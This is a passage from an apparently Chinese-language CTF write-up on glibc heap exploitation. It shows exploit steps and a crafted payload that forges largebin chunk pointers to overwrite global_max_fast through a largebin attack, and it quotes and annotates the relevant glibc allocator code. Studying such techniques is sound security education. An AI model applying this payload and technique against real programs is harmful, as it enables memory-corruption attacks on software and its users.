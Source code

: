 	Delete(3)
	Alloc(0x500)	#3

	Delete(1)
	Alloc(0x700)	#1

	global_max_fast = libc.address + 0x39B7D0
	lg('global_max_fast',global_max_fast)
	payload = 'a'*0xf0 + p64(0) + p64(0x501) + p64(0) + p64(heap_addr) + p64(0) + p64(global_max_fast-0x20)+'A'*(0x4f0-0x20)+p64(0x21)*8
	Fill(payload)
此时largebin链表中保存着一块大小为0x500的chunk，通过overlap覆写改写该chunk的fd，bk，fd\_nextsize,bk\_nextsize字段。改写后的largebin chunk如下所示：

	||        presize = 0x0       ||             size = 0x501             ||
	|| 		    fd = 0x0          ||            bk = heap_addr            ||
	||      fd_nextsize= 0x0      || bk_nextsize = global_max_fast - 0x20 ||
之所以要修改为这样是为了触发之后的largebin attack。  
在这里我们首先看下，largebin在申请过程中存在下列关键代码：

	while ((unsigned long) size < chunksize_nomask (fwd))
	{
		fwd = fwd->fd_nextsize;
		assert (chunk_main_arena (fwd));
	}
	//遍历链表，寻找小于等于victim的chunk
	if ((unsigned long) size == (unsigned long) chunksize_nomask (fwd))
		/* Always insert in the second position.  */
		fwd = fwd->fd;
		//由于当前链表中已经存在该大小的chunk，因此不再将victim chunk链入fd_nextsize和bk_nextsize组成的链表中
	else
	{
		victim->fd_nextsize = fwd;
		victim->bk_nextsize = fwd->bk_nextsize;
		fwd->bk_nextsize = victim;
		victim->bk_nextsize->fd_nextsize = victim;	//关键语句
	}
	
其中victim即是当前要插入largebin链表的chunk，其中  
victim->bk\_nextsize->fd\_nextsize = fwd->bk\_nextsize->fd\_nextsize = global\_max\_fast - 0x20 + 0x20  
即global\_max\_fast = victim。达到了修改global\_max\_fast值的目的。

	Alloc(0x510)	#4
	Alloc(0x510)	#5
	Delete(4)
	Delete(0)
	Alloc(0x100)
因此通过释放chunk4，chunk0，然后再次分配chunk0大小的chunk（此时在unsortedbin中存在chunk0和chunk4，chunk4先于chunk0加入，会被先遍历到），将chunk4加入largebin链表来触发largebin attack。

另外一种可以用来改写global\_max\_fast的chunk伪造方法为

